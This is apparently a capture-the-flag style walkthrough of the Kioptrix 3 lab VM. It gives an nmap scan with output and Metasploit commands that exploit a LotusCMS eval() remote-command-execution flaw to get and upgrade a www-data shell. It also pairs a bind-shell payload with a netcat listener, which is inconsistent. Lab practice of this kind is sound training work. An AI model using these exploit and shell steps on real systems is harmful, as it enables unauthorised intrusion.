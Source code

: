 Let , recon using `nmap -AF -oN full_scan.txt 192.168.69.9` , -AF refer Aggressive and Fast scan

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-22 21:54 CDT
Nmap scan report for kioptrix3.com (192.168.69.9)
Host is up (0.00021s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey:
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Ligoat Security - Got Goat? Security ...
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
MAC Address: 08:00:27:AC:33:02 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.21 ms kioptrix3.com (192.168.69.9)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.07 seconds
```

let search for LotusCMS in Metasploit

```
sudo msfconsole

search LotusCMS
0  exploit/multi/http/lcms_php_exec  2011-03-03 excellent Yes LotusCMS 3.0 eval() Remote Command Execution
use 0

show options
Name     Current Setting  Required  Description
RHOSTS                    yes       The target host(s), see
RPORT    80               yes       The target port (TCP)
URI      /lcms/           yes       URI

set rhost 192.168.69.9
set uri /
set payload generic/shell_bind_tcp
set LPORT  4444

# In another terminal start the listerner
sudo nc -lvnp 4444

# In msfconsole terminal
run
whoami
www-data
python -c "import pty; pty.spawn('/bin/bash');"
```